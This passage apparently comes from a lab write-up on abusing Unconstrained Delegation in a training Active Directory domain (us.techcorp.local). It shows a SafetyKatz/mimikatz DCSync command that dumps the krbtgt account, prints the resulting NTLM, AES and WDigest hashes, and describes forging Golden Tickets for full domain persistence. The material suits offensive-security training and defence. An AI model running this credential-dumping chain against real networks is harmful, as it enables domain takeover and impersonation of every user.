This final step proves the core concept behind Unconstrained Delegation exploitation, simply compromising a machine with this misconfiguration does not automatically lead to full domain compromise. Instead, the key to success lies in coercing a privileged account, such as the domain controller (US-DC$), to authenticate to the compromised machine. Once that happens, the TGT of the privileged account is cached in memory, allowing for extraction and full domain takeover.
`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:us\krbtgt" "exit”bash
mimikatz(commandline) # lsadump::dcsync /user:us\krbtgt
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'us\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
SAM ACCOUNT
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 7/4/2019 11:49:17 PM
Object Security ID : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID : 502
Credentials:
Hash NTLM: b0975ae49f441adc6b024ad238935af5
ntlm- 0: b0975ae49f441adc6b024ad238935af5
lm - 0: d765cfb668ed3b1f510b8c3861447173
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : 819a7c8674e0302cbeec32f3f7b226c9
Primary:Kerberos-Newer-Keys
Default Salt : US.TECHCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
aes128_hmac (4096) : 1bae2a6639bb33bf720e2d50807bf2c1
des_cbc_md5 (4096) : 923158b519f7a454
Primary:Kerberos
Default Salt : US.TECHCORP.LOCALkrbtgt
Credentials
des_cbc_md5 : 923158b519f7a454
Packages
NTLM-Strong-NTOWF
Primary:WDigest
01 a1bdf6146e4b13c939093eb2d72416c9
02 cd864c0d5369adad4fc59a469a2d4d17
03 2123179b0ab5c0e37943e346ef1f9d9a
04 a1bdf6146e4b13c939093eb2d72416c9
05 cd864c0d5369adad4fc59a469a2d4d17
06 3449e5615d5a09bbc2802cefa8e4f9d4
07 a1bdf6146e4b13c939093eb2d72416c9
08 296114c8d353f7435b5c3ac112523ba4
09 296114c8d353f7435b5c3ac112523ba4
10 5d504fb94f1bcca78bd048de9dad69e4
11 142c7fde1e3cb590f54e12bbfdecfbe4
12 296114c8d353f7435b5c3ac112523ba4
13 13db8df6b262a6013f78b082a72add2c
14 142c7fde1e3cb590f54e12bbfdecfbe4
15 b024bdda9bdb86af00c3b2503c3bf620
16 b024bdda9bdb86af00c3b2503c3bf620
17 91600843c8dadc79e72a753649a05d75
18 423730024cfbbc450961f67008a128a5
19 d71f700d63fa4510477342b9dc3f3cc7
20 bad6b9122f71f8cfd7ea556374d381d9
21 52c6560f77613d0dcf460476da445d93
22 52c6560f77613d0dcf460476da445d93
23 23504d9f1325c5cf68892348f26e77d7
24 8228bd623c788b638fce1368c6b3ef44
25 8228bd623c788b638fce1368c6b3ef44
26 a2659c1d9fa797075b1fabdee926569b
27 784f5fbc5276dcc8f88bbcdfa27b65d8
28 2ac6c7c1c24262b424f85e1ab762f1d3
29 4bef285b22fd87f4868be352958dcb9e
`
With the KRBTGT hash in my possession, I now have the power to create Golden Tickets, granting me the ability to impersonate any user within the domain indefinitely. This attack chain effectively achieves full persistence within Active Directory, making it one of the most devastating misconfigurations in enterprise networks. We have just fully compromised us.techcorp.local domain.